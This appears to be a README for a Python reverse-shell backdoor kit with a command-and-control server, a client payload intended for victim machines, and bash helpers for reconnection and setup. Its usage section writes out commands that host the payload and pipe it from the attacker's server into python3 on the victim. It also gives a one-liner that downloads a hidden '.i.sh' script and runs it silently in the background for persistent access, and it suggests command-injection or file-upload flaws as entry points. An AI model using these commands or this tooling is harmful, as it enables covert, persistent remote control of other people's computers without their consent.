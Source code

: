 # Files in question

__server_shell.py__ [CNC - Command and Control script]
- This file is to be ran on the CNC server system and listens for incoming connections made by an exploited machine via the client_payload script.
- Once a connected is established - this acts as a reverse shell and executes commands on the client system.

__client_payload.py__ [Reverse shell Backdoor]
- This file initiates a connection from the host system to the CNC server machine (hacker machine).
- This is intended to be downloaded/executed on a victim machine.
- This file assumes python3 is installed.

__client_connect.sh__ [Helper script - BASH]
- This file is a helper to the client_payload script.
- The goal here is to make sure if a connection is dropped - a new one will be re-initiated - allowing the CNC server to have realiable access to client machine.
- Write this as bash script so most of the commands here are directly communicating at the command line level.

___startup.sh__ [Helper script - BASH]
- Prints on screen-instructions asking for the ip/port details of the CMC server (hacker machine) and where the client_payload is to be hosted. 
- This scrpt also edits the client_payload.py, server_shell.py, and client_connect.sh to reflected the command line input.
- Finally, this script tells you exactly which commands to run on CNC server and client machine to initiate a reverse shell (backdoor) attack. 

# Usage

Note: With all methods - there needs to be a way to run a command on the client machine to kick-off the connection to the CNC server (hacker's machine).
There is more than one way to do this - but would be good to find a straight-forward vulnerability such a a command line injection if possible.

## Method 1: Startup Script [PREFERRED]

### On Hacking machine (CNC Server)
Run startup script
`bash startup.sh`

Then follow on screen instructions.


## Method 2: Manual
(works with cmd line injection)

- [SERVER] Host client_payload.py somehere
- - One option is to start a python web server on the cnc_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - <cnc_server_ip>:8080/client_payload.py | python3`
- [OPTIONAL] Once you have a connection to client from cnc server...
- - Download + Execute the client_connect.sh script (keeps reconnects the client if it disconnects)
- - CNC server could host the client_connect.sh script.
- - - This file must first be edited to match the host/port details you already have in use.
- - - `wget -q <cnc_server_ip>:8080/client_connect.sh &> /dev/null ;` 
- - - `bash client_connect.sh &> /dev/null & `
- - One-Liner
- - - `{ wget -q -O .i.sh <cnc_server_ip>:8080/client_connect.sh ; } && { nohup bash .i.sh &> /dev/null & }`
- - Make sure you exit from CNC server with 'exit' to disconnect properly.



## Method 3: Direct Client Access

- [SERVER] `python3 server_shell.py` <- edit the file to use the port you want or pass it in as an argument (default 8000). 
- [CLIENT] `python3 client_payload.py`<- edit the file to use the CNC server IP and port you want. 
- - Or pass them in as an argumenta (default port 8000)
- - `python3 client_payload.py <cnc_server_ip> <cnc_server_port>`


# Other ways to get client_payload.py on victim machine
You could also exploit a file upload vulnerability of aa web application and upload the client_payload file onto the victim's machine.
Just make sure you listen on sever and manage a way to run the client_payload.py script on the client machine.


### Port as an optional argument
Both client_payload and server_shell scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

